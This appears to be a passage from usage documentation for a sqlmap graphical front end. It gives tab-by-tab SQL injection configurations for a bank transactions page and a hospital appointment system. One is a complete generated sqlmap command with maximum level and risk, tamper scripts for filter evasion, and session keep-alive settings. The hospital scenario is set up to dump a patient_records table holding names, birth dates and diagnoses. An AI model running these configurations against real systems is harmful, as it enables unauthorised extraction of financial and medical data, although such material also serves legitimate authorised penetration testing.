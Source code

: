 ```

Injection Tab:
├── Testable Parameters: account,date_from
├── DBMS: Oracle
├── Tamper Scripts: space2comment
└── No Escape: ✓

Request Tab:
├── Safe URL: https://bank.com/keepalive.php
├── Safe POST: session_refresh=1
├── Delay: 2
└── Timeout: 120
```

**Generated Command:**
```bash
sqlmap -u "https://bank.com/transactions.php?account=123456&date_from=2023-01-01" --cookie="session=bank_customer_session" --client-cert=/path/to/client.crt --client-key=/path/to/client.key --level=5 --risk=3 --technique=T --time-sec=5 --retries=5 -p account,date_from --dbms=oracle --tamper=space2comment --no-escape --safe-url="https://bank.com/keepalive.php" --safe-post="session_refresh=1" --delay=2 --timeout=120 --batch
```

## 🏥 Healthcare System Testing

### Scenario 4: Medical Records Database
**Target:** Hospital patient management system
**Vulnerability:** Stacked queries in appointment scheduling

**Configuration:**
```
Target Tab:
├── URL: https://hospital.com/appointments.php
├── Method: POST
├── Data: patient_id=123&doctor_id=456&date=2024-01-15
├── Cookie: medical_staff_session=authenticated
└── Referer: https://hospital.com/dashboard.php

Injection Tab:
├── Testable Parameters: patient_id,doctor_id
├── DBMS: Microsoft SQL Server
├── Multiple Statements: ✓
├── Stacked Test: ✓
└── Tamper Scripts: space2comment,charencode

Detection Tab:
├── Level: 4
├── Risk: 3
├── Techniques: S (Stacked queries)
└── Time Delay: 2

Enumeration Tab:
├── Database: medical_db
├── Table: patient_records
├── Columns: patient_id,name,dob,diagnosis,treatment
├── Dump Table: ✓
└── Start from Entry: 1
```
